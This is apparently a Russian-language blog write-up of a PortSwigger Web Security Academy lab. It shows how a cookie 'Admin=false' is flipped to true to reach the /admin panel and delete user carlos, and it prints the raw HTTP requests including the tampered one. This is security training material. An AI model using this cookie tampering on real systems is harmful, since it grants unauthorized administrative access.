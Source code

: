 ```yaml
---
title: "User role controlled by request parameter"
date: 2025-07-18
tags: [web, writeup]  
categories: [PortSwigger]
tagline: ""
header:
  overlay_image: /assets/images/IMG_writeups/IMG_PortSwigger/ps_logo.webp
  overlay_filter: 0.5 
  overlay_color: "#fff"
  actions:
    - label: "Lab PortSwigger"
      url: "https://portswigger.net/web-security/learning-paths/server-side-vulnerabilities-apprentice/access-control-apprentice/access-control/lab-user-role-controlled-by-request-parameter#"
classes: wide
---
```


В данной лабе есть админ панель в поддиректории `/admin`. Для прохождения нужно удалить пользователя `carlos`. У нас есть свой аккаунт с кредами `wiener:peter`.

```
https://0a7400940427e73e81239e93008800d6.web-security-academy.net/
```

## Solution

Так как у нас креды, было бы глупо не войти в наш аккаунт.

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_access_control/IMG_User_role_controlled_by_request_parameter/1.png){: height="200" .align-center}

В `url` нашего профиля `https://0a7400940427e73e81239e93008800d6.web-security-academy.net/my-account?id=wiener` мы можем увидеть `GET`-параметр `my-account`.

Можно попробовать указать другое имя аккаунта. Например, `carlos`. И это не сработало :(

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_access_control/IMG_User_role_controlled_by_request_parameter/2.png){: height="200" .align-center}

Можно посмотреть `HTTP`-запрос, который мы отправляем для получения страницы:

```http
GET /my-account HTTP/2
Host: 0a7400940427e73e81239e93008800d6.web-security-academy.net
Cookie: session=Vy6WXmcR6UmR0et3TlDj5mwYWF2Xy5f4; Admin=false
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:134.0) Gecko/20100101 Firefox/134.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a7400940427e73e81239e93008800d6.web-security-academy.net/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Pragma: no-cache
Cache-Control: no-cache
Te: trailers
```

Мы можем увидеть, что в запросе нам установилось `Cookie`: `Admin` со значением `false`. Конечно же поменяем его на `True`.

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_access_control/IMG_User_role_controlled_by_request_parameter/3.png){: height="200" .align-center}

Попробуем таким же образом зайти в панель администратора:

```http
GET /admin HTTP/2
Host: 0a7400940427e73e81239e93008800d6.web-security-academy.net
Cookie: session=eRLogJbzgvCOwyqgzja8CRmzduJ8L2Dl; Admin=true
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:134.0) Gecko/20100101 Firefox/134.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Priority: u=0, i
Pragma: no-cache
Cache-Control: no-cache
Te: trailers
```

Успех) Теперь просто удалим пользователя.

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_access_control/IMG_User_role_controlled_by_request_parameter/4.png){: height="200" .align-center}
